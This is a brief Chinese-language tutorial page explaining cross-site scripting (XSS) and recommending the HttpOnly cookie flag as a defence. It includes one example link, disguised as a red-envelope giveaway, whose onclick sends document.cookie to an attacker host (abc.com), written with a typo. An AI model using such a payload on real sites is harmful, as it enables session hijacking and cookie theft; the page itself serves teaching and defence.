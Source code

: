 ```yaml
---
title: XSS
---
```


XSS（Cross Site Script）跨站脚本攻击；其原本缩写是 CSS，但为了和层叠样式表(Cascading Style Sheet)有所区分，因而在安全领域叫做 XSS。

XSS 攻击其实本质比较简单，就是利用 html 里面的特殊字符(单引号，双引号，大于、小于等)，打乱正常的代码执行流程，并将恶意代码注入到系统中。

<div align="center">
    <img width="285" height="265" src="https://cosmos-x.oss-cn-hangzhou.aliyuncs.com/MrD1Vj.png" />
</div>

教程推荐：https://www.youtube.com/watch?v=QJzkifQ-Cuk

使用跨站点脚本技术可以窃取 cookie。当网站允许使用 javascript 操作 cookie 的时候，就会发生攻击者发布恶意代码攻击用户的会话，同时可以拿到用户的 cookie 信息。

例子：

```html
<a href="#" onclick=`window.location=http://abc.com?cookie=${docuemnt.cookie}`>领取红包</a>
```

当用户点击这个链接的时候，浏览器就会执行 onclick 里面的代码，结果这个网站用户的 cookie 信息就会被发送到 abc.com 攻击者的服务器。攻击者同样可以拿 cookie 搞事情。

解决办法：可以通过 cookie 的 HttpOnly 属性，设置了 HttpOnly 属性，javascript 代码将不能操作 cookie。
